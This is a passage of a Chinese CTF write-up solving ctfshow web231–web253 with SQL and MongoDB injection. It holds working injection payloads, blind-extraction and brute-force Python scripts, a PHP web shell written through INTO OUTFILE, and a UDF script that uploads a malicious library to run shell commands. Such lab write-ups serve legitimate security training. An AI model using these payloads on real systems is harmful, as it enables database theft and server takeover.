返回逻辑
//师傅说内容太多，就写入数据库保存
if(count($banlist)>0){
foreach ($banlist as $char) {
if(preg_match("/".$char."/i", $username)){
die(json_encode($ret));
}
}
}
同web226
web229
同web226
web230
同web226
update注入

web231
查询语句
//分页查询
$sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
返回逻辑
//无过滤
知道update函数的作用之后就好理解了
可以通过update函数更新ctfshow_user表中的内容
利用update将查询结果写入表中
password=1',username=(select group_concat(table_name) from information_schema.tables where table_schema=database()) where 1=1#&username=1
查表名
password=1',username=(select group_concat(table_name) from information_schema.tables where table_schema=database()) where 1=1#&username=1
查列名
password=1',username=(select group_concat(column_name) from information_schema.columns where table_name='flaga') where 1=1#&username=1
得到flag
password=1',username=(select flagas from flaga) where 1=1#&username=1
原文链接：https://blog.csdn.net/solitudi/article/details/110144623
web232
查询语句
//分页查询
$sql = "update ctfshow_user set pass = md5('{$password}') where username = '{$username}';";
返回逻辑
//无过滤
同web231
password=1'),username=(select group_concat(table_name) from information_schema.tables where table_schema=database()) where 1=1#&username=1
password=1'),username=(select group_concat(column_name) from information_schema.columns where table_name='flagaa') where 1=1#&username=1
password=1'),username=(select flagass from flagaa) where 1=1#&username=1
web233
查询语句
//分页查询
$sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
返回逻辑
//无过滤
这道题貌似waf掉了单引号，导致无法构造闭合，前面的方法用不了
方法一
wp看到的骚操作
payload
#获取表名
password=\&username=,username=(select group_concat(table_name) from information_schema.tables where table_schema=database())%23
#获取列名
password=\&username=,username=(select group_concat(column_name) from information_schema.columns where table_schema=database())%23
#获取数据
password=\&username=,username=(select group_concat(flagass233) from flag233333)
方法二 ：盲注
1"""
2Author:Y4tacker
3"""
4import requests
5
6url = "http://4f5b7639-6d01-45c4-9610-e11239ba8c90.chall.ctf.show/api/?page=1&limit=10"
7
8result = ""
9i = 0
10
11while 1:
12 i = i + 1
13 head = 32
14 tail = 127
15
16 while head < tail:
17 mid = (head + tail) >> 1
18 # 查数据库
19 # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
20 # 查表名
21 # payload = "select column_name from information_schema.columns where table_name='flag233333' limit 1,1"
22 # 查数据
23 payload = "select flagass233 from flag233333"
24 data = {
25 'username': f"1' or if(ascii(substr(({payload}),{i},1))>{mid},sleep(0.05),1)#",
26 'password': '4'
27 }
28 try:
29 r = requests.post(url, data=data, timeout=0.9)
30 tail = mid
31 except Exception as e:
32 head = mid + 1
33 if head != 32:
34 result += chr(head)
35 else:
36 break
37 print(result)
web234
查询语句
//分页查询
$sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
返回逻辑
//无过滤
同web233，用\实现逃逸
web235
1查询语句
2
3 //分页查询
4 $sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
5
6返回逻辑
7
8 //过滤 or '
or ‘ 被禁导致information_schema.tables也被禁了
导致我们没办法查询列
这种情况涉及到一个知识点 ：CTF|mysql之无列名注入 - 知乎
在 information_schema 中，除了 SCHEMATA、TABLES、COLUMNS 有表信息外，高版本的 mysql 中，还有 INNODB_TABLES 及 INNODB_COLUMNS 中记录着表结构。
读表
username=,username=(select group_concat(table_name) from mysql.innodb_table_stats where database_name=database())#&password=\
查字段
username=,username=(select b from (select 1,2 as b,3 union select * from flag23a1 limit 1,1)a)#&password=\
web236
1查询语句
2
3 //分页查询
4 $sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
5
6返回逻辑
7
8 //过滤 or ' flag
读表
username=,username=(select group_concat(table_name) from mysql.innodb_table_stats where database_name=database())#&password=\
//banlist,ctfshow_user,flaga
读字段
username=,username=(select b from (select 1,2 as b,3 union select * from flaga limit 1,1)a)#&password=\
这题新增的flag过滤，但是实际上没有影响，或许是过滤返回的内容？
insert注入
web237
1查询语句
2
3 //插入数据
4 $sql = "insert into ctfshow_user(username,pass) value('{$username}','{$password}');";
5
6返回逻辑
7
8 //无过滤
insert函数用于插入值
其实跟update注入差不多
payload:
读表名
password=1&username=1',(select group_concat(table_name) from information_schema.tables where table_schema=database()));#
查列名
password=1&username=1',(select group_concat(column_name) from information_schema.columns where table_name='flag'));#
//id,flagass23s3,info
爆字段
password=1&username=1',(select flagass23s3 from flag));#
web238
1查询语句
2
3 //插入数据
4 $sql = "insert into ctfshow_user(username,pass) value('{$username}','{$password}');";
5
6返回逻辑
7
8 //过滤空格
测了一下发现不止是空格，连同一些代替空格的字符也被一同waf了，比如/**/
我们可以考虑用括号代替空格
payload
#获取表名
username=1',(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())))%23&password=1
#获取列名
username=1',(select(group_concat(column_name))from(information_schema.columns)where(table_name='flagb')))%23&password=1
#获取数据
username=1',(select(group_concat(flag))from(flagb)))%23&password=1
web239
查询语句
//插入数据
$sql = "insert into ctfshow_user(username,pass) value('{$username}','{$password}');";
返回逻辑
//过滤空格 or
payload:
读表
username=1',(select(group_concat(table_name))from(mysql.innodb_table_stats)where(database_name=database())))#&password=1
由于*被ban掉了，没办法用之前无列名爆字段的方法
这里猜测列名为flag，直接读
username=1',(select(flag)from(flagbb)))#&password=1
web240
Hint: 表名共9位，flag开头，后五位由a/b组成，如flagabaab，全小写
查询语句
//插入数据
$sql = "insert into ctfshow_user(username,pass) value('{$username}','{$password}');";
返回逻辑
//过滤空格 or sys mysql
根据hint可以知道是要爆破表名
拿y4✌的脚本改一下
"""
Author:Y4tacker
"""
import random
import requests
url = "http://0a7a5c02-0a05-4efe-86f5-fcf36464cc74.challenge.ctf.show"
url_insert = url + "/api/insert.php"
url_flag = url + "/api/?page=1&limit=1000"
# 看命函数
def generate_random_str():
sttr = 'ab'
str_list = [random.choice(sttr) for i in range(5)]
random_str = ''.join(str_list)
return random_str
while 1:
data = {
'username': f"1',(select(flag)from(flag{generate_random_str()})))#",
'password': ""
}
r = requests.post(url_insert, data=data)
r2 = requests.get(url_flag)
if "ctfshow{" in r2.text:
for i in r2.json()['data']:
if "ctfshow{" in i['pass']:
print(i['pass'])
break
break
web241
sql语句
//删除记录
$sql = "delete from ctfshow_user where id = {$id}";
返回逻辑
//无过滤
delete注入，delete函数顾名思义就是从数据库中删除内容
注入点在where后面，可以采用时间盲注或者布尔盲注，但是由于delete会删除数据库中的记录，所以可能会出现记录都删完了但是flag还没注出来的情况
1import requests
2import time
3url = 'http://40c66eef-72b4-4b08-88d0-87bef44b640e.challenge.ctf.show/api/delete.php'
4str = ''
5for i in range(1, 60):
6 min,max = 32, 128
7 while True:
8 j = min + (max-min)//2
9 if(min == j):
10 str += chr(j)
11 print(str)
12 break
13 # 爆表名
14 # payload = {
15 # 'id': f'if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))<{j},sleep(0.03),1)#'
16 # }
17 # 爆列
18 # payload = {
19 # 'id': f"if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='flag'),{i},1))<{j},sleep(0.03),1)#"
20 # }
21 # 爆值
22 payload = {
23 'id': f"if(ascii(substr((select group_concat(flag) from flag),{i},1))<{j},sleep(0.03),1)#"
24 }
25 start_time = time.time()
26 r = requests.post(url=url, data=payload).text
27 end_time = time.time()
28 sub = end_time - start_time
29 if sub >= 0.2:
30 max = j
31 else:
32 min = j
为什么sleep设定的是0.03，但是超时时间是大于0.2呢
那是因为要对所有记录都算一遍 if
那我们怎么测试这个时间呢，这里放一个大佬的脚本
Practice - CTFSHOW WEB入门 SQL注入篇
url = 'http://58e7b03f-3c20-48e0-a8f8-9a3efa102f6d.challenge.ctf.show:8080/api/delete.php'
def test2() -> float:
rand = random.random()
time_s = time.time()
_ = requests.post(url,data={"id": f"if({1 if rand > 0.5 else 0},sleep(0.05),0)"})
time_e = time.time()
return (rand > 0.5, time_e - time_s)
print([test() for _ in range(30)])
我测出来的结果
[(False, 0.09313225746154785), (True, 1.087439775466919), (True, 1.599609375), (True, 1.6065845489501953), (True, 1.6024441719055176), (False, 0.5998048782348633), (False, 0.0730128288269043), (True, 1.0801937580108643), (True, 1.6085357666015625), (False, 0.1298365592956543), (True, 1.089057445526123), (False, 0.6771323680877686), (True, 1.0864779949188232), (True, 1.6023609638214111), (False, 0.07814288139343262), (False, 0.07692098617553711), (False, 0.07593393325805664), (True, 1.082731008529663), (False, 0.07544946670532227), (True, 1.606881856918335), (True, 1.609898567199707), (False, 0.08498406410217285), (True, 1.0778491497039795), (True, 1.0797111988067627), (True, 1.0858359336853027), (False, 0.08560538291931152), (False, 0.08359408378601074), (False, 0.08201932907104492), (False, 0.07815837860107422), (True, 1.085575819015503)]
在false和true之间选取一个合适的值即可，目的是能够进行区分，我这里选取了0.2
文件注入
web242
1sql语句
2
3 //备份表
4 $sql = "select * from ctfshow_user into outfile '/var/www/html/dump/{$filename}';";
5
6返回逻辑
7
8 //无过滤
outfile的语法
SELECT ... INTO OUTFILE 'file_name'
[CHARACTER SET charset_name]
[export_options]
export_options:
[{FIELDS | COLUMNS}
[TERMINATED BY 'string']//分隔符
[[OPTIONALLY] ENCLOSED BY 'char']
[ESCAPED BY 'char']
]
[LINES
[STARTING BY 'string']
[TERMINATED BY 'string']
]
----------------------------------------------------
“OPTION”参数为可选参数选项，其可能的取值有：
FIELDS TERMINATED BY '字符串'：设置字符串为字段之间的分隔符，可以为单个或多个字符。默认值是“\t”。
FIELDS ENCLOSED BY '字符'：设置字符来括住字段的值，只能为单个字符。默认情况下不使用任何符号。
FIELDS OPTIONALLY ENCLOSED BY '字符'：设置字符来括住CHAR、VARCHAR和TEXT等字符型字段。默认情况下不使用任何符号。
FIELDS ESCAPED BY '字符'：设置转义字符，只能为单个字符。默认值为“\”。
LINES STARTING BY '字符串'：设置每行数据开头的字符，可以为单个或多个字符。默认情况下不使用任何字符。
LINES TERMINATED BY '字符串'：设置每行数据结尾的字符，可以为单个或多个字符。默认值是“\n”。
漏洞的注入点是由于数据库的导出功能
根据这个我们可以写入一句话木马
payload:
filename=1.php' LINES STARTING BY '<?php eval($_POST[1]);?>'#

web243
1sql语句
2
3 //备份表
4 $sql = "select * from ctfshow_user into outfile '/var/www/html/dump/{$filename}';";
5
6返回逻辑
7
8 //过滤了php
尝试一下.user.ini文件包含
filename=.user.ini' lines starting by 'auto_prepend_file=1.txt\n'%23
filename=1.txt' lines starting by '<?=eval($_POST[1])?>'%23
报错注入
新手小白入门——SQL注入之报错注入_sql注入报错注入-CSDN博客
web244
sql语句
//备份表
$sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";
返回逻辑
//无过滤
updatexml报错注入
payload
/api/?id=' or updatexml(1, concat(0x7e, database(), 0x7e), 1)%23
/api/?id=' or updatexml(1, concat(0x7e, (select table_name from information_schema.tables where table_schema = database() limit 1, 1), 0x7e), 1)%23
/api/?id=' or updatexml(1, concat(0x7e, (select column_name from information_schema.columns where table_schema = database() and table_name = 'ctfshow_flag' limit 1, 1), 0x7e), 1)%23
/api/?id=' or updatexml(1, concat(0x7e, (select column_name from information_schema.columns where table_schema = database() and table_name = 'ctfshow_flag' limit 1, 1), 0x7e), 1)%23
/api/?id=' or updatexml(1, concat(0x7e, (select substr(flag, 1, 30) from ctfshow_flag), 0x7e), 1)%23
#ctfshow{89982b11-5c7d-4215-a78
/api/?id=' or updatexml(1, concat(0x7e, (select substr(flag, 31, 30) from ctfshow_flag), 0x7e), 1)%23
#9-a9f8ecc8f1b1}
# 数据长度有限制，可以使用substr来截取
//ctfshow{89982b11-5c7d-4215-a789-a9f8ecc8f1b1}
web245
1sql语句
2
3
4 $sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";
5
6返回逻辑
7
8 //无过滤
9 过滤updatexml
extractvalue报错注入
payload
查数据库名：id=' and (select extractvalue(1,concat(0x7e,(select database()))))%23
爆表名：id=' and (select extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))))%23
//ctfshow_flagsa
爆字段名：id=' and (select extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name="ctfshow_flagsa"))))%23
//flag1
爆数据：
id=' and (select extractvalue(1,concat(0x7e,(select substr(group_concat(flag1),1,30) from ctfshow_flagsa))))%23
id=' and (select extractvalue(1,concat(0x7e,(select substr(group_concat(flag1),31,30) from ctfshow_flagsa))))%23
//ctfshow{41446106-c47e-434d-a0c0-16ee43375249}
web246
1sql语句
2
3
4 $sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";
5
6返回逻辑
7
8 //无过滤
9 过滤updatexml extractvalue
floor报错注入
原理：SQL注入报错注入之floor()报错注入原理分析_sql注入floor-CSDN博客
#获取表名
1' union select 1,count(*),concat(0x3a,0x3a,(select (table_name) from information_schema.tables where table_schema=database() limit 1,1),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a%23
#获取列名
1' union select 1,count(*),concat(0x3a,0x3a,(select (column_name) from information_schema.columns where table_name='ctfshow_flags' limit 1,1),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a%23
#获取数据
1' union select 1,count(*),concat(0x3a,0x3a,(select (flag2) from ctfshow_flags limit 0,1),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a%23
web247
1sql语句
2
3
4 $sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";
5
6返回逻辑
7
8 //无过滤
9 过滤updatexml extractvalue floor
这道题floor函数也被ban掉了
根据floor报错注入的原理，其实我们可以知道，之所以会出现错误主要是因为用floor对rand(0)*2进行取整，目的输出011011…的结果，而既然这样我们只需要找一个同样能进行取整的函数来代替floor就ok了
除了floor之外，我们还能使用round，ceil等
payload
查表
1' union select 1,count(*),concat(0x3a,0x3a,(select (table_name) from information_schema.tables where table_schema=database() limit 1,1),0x3a,0x3a,ceil(rand(0)*2))a from information_schema.columns group by a%23
查列
1' union select 1,count(*),concat(0x3a,0x3a,(select (column_name) from information_schema.columns where table_name='ctfshow_flagsa' limit 1,1),0x3a,0x3a,ceil(rand(0)*2))a from information_schema.columns group by a%23
查数据
1' union select 1,count(*),concat(0x3a,0x3a,(select (`flag?`) from ctfshow_flagsa limit 0,1),0x3a,0x3a,ceil(rand(0)*2))a from information_schema.columns group by a%23
web248
1sql语句
2
3
4 $sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";
5
6返回逻辑
7
8 //无过滤,
UDF注入
ctfshow-web入门-sql注入-web248-UDF 注入_ctfshow web248-CSDN博客
我们需要将 UDF 的动态链接库文件（xxx.dll文件）放到 MySQL 的检索目录下才能创建自定义函数，对于不同版本的 mysql，检索目录是不同的：
MySQL < 5.0 导出路径随意； 5.0 <= MySQL< 5.1 需要导出至目标服务器的系统目录（如：c:/windows/system32/） 5.1 < MySQL 必须导出到MySQL安装目录下的lib\plugin文件夹下
堆叠注入查版本
/api/?id=0';select version();%23
大于5.1，接着要查目录路径
/api/?id=0';select @@plugin_dir;%23
/usr/lib/mariadb/plugin
拿到路径，我们接下来就可以传入我们的恶意so文件了
sqlmap中有已经写好的 udf 文件
如，lib_mysqludf_sys_64.so
但是由于get传参有长度限制，我们需要进行分段传参
放一个国外大佬的脚本，将udf文件分段上传后再进行合并即可
import requests
url="http://449c0852-2873-4a47-9eb4-a854915a6b40.challenge.ctf.show/api/"
udf=""
udfs=[]
for i in range(0,len(udf),5000):
udfs.append(udf[i:i+5000])
#写入多个文件中
for i in udfs:
url1=url+f"?id=1';SELECT '{i}' into dumpfile '/tmp/"+str(udfs.index(i))+".txt'%23"
requests.get(url1)
#合并文件生成so文件
url2=url+"?id=1';SELECT unhex(concat(load_file('/tmp/0.txt'),load_file('/tmp/1.txt'),load_file('/tmp/2.txt'),load_file('/tmp/3.txt'))) into dumpfile '/usr/lib/mariadb/plugin/hack.so'%23"
requests.get(url2)
#创建自定义函数并执行恶意命令
requests.get(url+"?id=1';create function sys_eval returns string soname 'hack.so'%23")
r=requests.get(url+"?id=1';select sys_eval('cat /f*')%23")
print(r.text)
web249
1sql语句
2
3 //无
4 $user = $memcache->get($id);
5
6返回逻辑
7
8 //无过滤
payload:
?id[]=flag
web250
1sql语句
2
3 $query = new MongoDB\Driver\Query($data);
4 $cursor = $manager->executeQuery('ctfshow.ctfshow_user', $query)->toArray();
5
6返回逻辑
7
8 //无过滤
9 if(count($cursor)>0){
10 $ret['msg']='登陆成功';
11 array_push($ret['data'], $flag);
12 }
ctfshow-web入门-sql注入（web249-web253）nosql 注入_ctfshow web250-CSDN博客
在这些操作符中，$ne 就是我们在重言式注入中需要利用到的那个，它的作用是将不等于指定值的数据都查询出来，比如 $ne=1 时就是将所有不等于 1 的数据都查询出来。
所以payload就是
username[$ne]=1&password[$ne]=1
环境好像有点问题（？）前两次一直查不出来
web251
1sql语句
2
3 $query = new MongoDB\Driver\Query($data);
4 $cursor = $manager->executeQuery('ctfshow.ctfshow_user', $query)->toArray();
5
6返回逻辑
7
8 //无过滤
9 if(count($cursor)>0){
10 $ret['msg']='登陆成功';
11 array_push($ret['data'], $flag);
12 }
同样是
username[$ne]=1&password[$ne]=1

继续用上一题的 payload，返回 admin 的密码，但是这次的密码里没有 flag
可能flag在其他用户的密码里，我们禁用admin
username[$ne]=admin&password[$ne]=1
拿到flag
web252
1sql语句
2
3 $query = new MongoDB\Driver\Query($data);
4 $cursor = $manager->executeQuery('ctfshow.ctfshow_user', $query)->toArray();
5
6返回逻辑
7
8 //无过滤
9 if(count($cursor)>0){
10 $ret['msg']='登陆成功';
11 array_push($ret['data'], $flag);
12 }
13
这题有很多不同的username
我们可以考虑采用正则匹配来筛选
username[$ne]=1&password[$regex]=ctfshow{
or
用$gt （大于）一直尝试知道拿到有flag的用户
username[$ne]=admin&password[$ne]=1
username[$gt]=admin1&password[$ne]=1
username[$gt]=admin2&password[$ne]=1
username[$gt]=admin3&password[$ne]=1
or
正则匹配去掉所有为admin开头的用户
username[$regex]=^[^admin].*$&password[$ne]=1
web253
1sql语句
2
3 //sql
4 db.ctfshow_user.find({username:'$username',password:'$password'}).pretty()
5
6返回逻辑
7
8 //无过滤
9 if(count($cursor)>0){
10 $ret['msg']='登陆成功';
11 array_push($ret['data'], $flag);
12 }
方法一
CTFSHOW WEB入门 SQL注入篇 - b477eRy - 博客园
猜测到id为flag，直接布尔盲注拿到flag
import string
import requests
url = "http://5ce4ea0d-afb5-4f1c-9e65-626bdaa6e433.challenge.ctf.show:8080/api/"
letters = "{}-_" + string.ascii_lowercase + string.digits
def valid_pass(password: str) -> bool:
data = {
"username[$regex]": "flag",
"password[$regex]": f"{password}.*"
}
response = requests.post(url, data=data)
return "登陆成功" in response.json()["msg"]
result = ""
while True:
for letter in letters:
if valid_pass(result + letter):
result += letter
print(f"[*] result: {result}")
break
方法二
import requests, time, json
def brute(action, username=""):
url = "http://44e163eb-3f69-4641-83b2-5499d9c0d5ed.challenge.ctf.show/api/"
if action == "username":
res = "^[^a]" # admin1的password为ctfshow666...很明显不是flag，所以禁掉admin开头的用户
else:
res = "^ctfshow{"
for j in range(30):
flag = False
for i in range(127):
reg = res
if chr(i) not in "0123456789abcdefghijklmnopqrstuvwxyz-{}:,_":
continue
n = chr(i)
if chr(i) in "-{}:":
n = "\\"+chr(i)
print(chr(i))
if action == "username":
data = {"username[$regex]": f"{reg+n}", "password[$ne]": f"1"}
else:
data = {"username[$regex]": f"{username}$", "password[$regex]": f"{reg+n}"}
while True:
try:
r = requests.post(url, data=data, timeout=7)
break
except TimeoutError:
time.sleep(0.1)
except KeyboardInterrupt:
exit(0)
try:
resp = json.loads(r.text)
except:
resp = None
continue
if resp["msg"] == "\u767b\u9646\u6210\u529f":
res += chr(i)
flag = True
break
if not flag:
break
print(res)
return res
if __name__ == '__main__':
username = brute("username")
print(f"用户名为: {username}")
password = brute("password", username)
print(f"用户名: {username}\n密码: {password}")